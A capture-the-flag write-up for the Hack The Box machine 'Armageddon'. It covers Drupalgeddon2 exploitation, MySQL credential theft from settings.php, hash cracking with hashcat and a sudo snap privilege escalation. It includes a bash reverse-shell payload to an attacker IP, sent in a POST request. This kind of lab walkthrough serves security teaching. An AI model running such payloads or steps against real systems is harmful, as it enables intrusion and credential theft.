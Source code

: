 ```yaml
---
title: "HTB - Armageddon without MetaSploit"
date: 2021-07-31
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/07/Armageddon_Logo.png"
---
```

## Intro
During this box, we'll exploit an outdated version of Drupal in order to get an initial shell. This will allow me to discover user credentials on the Drupal DB. Finally, I'll get privesc thanks to an insecure sudo command (once again).

## Target
[HTB - Armageddon](https://app.hackthebox.eu/machines/323)

## Recon
A quick look to the box info reveals it's running Linux.

## Enum
We run our classic `nmap` scan :

```text
sudo nmap -sC -sV -oA scans\armageddon
```
```text
sudo nmap -sC -sV -oA scans/nmap 10.129.127.84
 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 08:51 CEST
Nmap scan report for 10.129.127.84
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.48 seconds
```

The above scans confirms we are facing a Linux box with only Apache and SSH running. 

The `CHANGELOG.txt` shows a `Drupal 7.56` version :

![Drupal Version](/images/2021/07/Armageddon_Drupal_Version.png)

After a quick look on [exploitDB](https://www.exploit-db.com/), we'll notice that this version should be vulnerable to `Drupalgeddon2`.

Let's see!

## Exploitation
NB: I like to use searchsploit directly in my terminal, it makes it easier to show an exploit with `searchsploit -x relative_path` and `searchsploit -m relative_path` in order to mirror (eg. copy the exploit in my current directory).

In our case, we'll be using : `searchsploit -m php/webapps/44449.rb`.

### Getting Initial Shell
After firing it up, we'll get a shell :

![Initial Shell](/images/2021/07/Armageddon_Initial_Shell.png)

From here, we can get the Drupal config inside `sites/default/settings.php` and find `MySQL credentials` :

![MySQL Credentials](/images/2021/07/Armageddon_Mysql_Creds.png)

Once, we have the creds, we can try to dump the db, with `mysqldump`, but we'll gt an error about a bad character (>). We,then, shall upgrade our shell.

Let's fire up `Burp`, with the following request and a `nc listener` :

```text
POST /shell.php HTTP/1.1
Host: 10.129.127.84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

c=bash+-i+>%26+/dev/tcp/10.10.14.11/443+0>%261
```

NB : In case you are wondering, I am using the `shell.php` from the exploit, and I simply copy pasted the URL in browser, captured it with Burp, and converted to POST. Then, I could run a better script.

Once it is done, we can dump the DB like so :

`mysqldump -u drupaluser -p drupal > plop.sql`

We now look inside the dump and search for user's information :

![User Info](/images/2021/07/Armageddon_Dump.png)

It appears our user is called `brucetherealadmin` and it's hash starts with `$S$` according to [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes), it is a Drupal 7 hash, which we can confirm it is!

Now to crack it :

`hashcat -m 7900 arma.hash /usr/share/wordlists/rockyou.txt`

After a little while, the password will be cracked :

![Cracked hash](/images/2021/07/Armageddon_Cracked.png)

### Getting User's Shell

We can now log in via SSH as `brucetherealadmin` with the just cracked password, and grab `user's flag` :

![User Flag](/images/2021/07/Armageddon_User_Flag.png)

### PrivEsc
Now that we are in, the first thing I like to do is checking if I have `sudo`'s rights. This might be an easy win and it is a lot quieter than running a script such as `LinPeas`.

Bruce can indeed run `sudo snap install` :

![Bruce sudo](/images/2021/07/Armageddon_Bruce_Sudo.png)

When I first did the box, there was nothing on [GTFObins](https://gtfobins.github.io/), but since there is today, let's do it the easy way!

We simply modify the first line, replacing `id` command with `cat /root/root.txt`. 

Finally, we run it like : `sudo snap install plop_1.0_all.snap --dangerous --devmode` in order to get root's flag:

![Root Flag](/images/2021/07/Armageddon_Root_Flag.png)

## Outro
I remember loving the first part until user... but the last part was just horrible. I hated it ! It was actually so painful, that I didn't take any note on the privesc and didn't even planned to do the writeup... but here I am!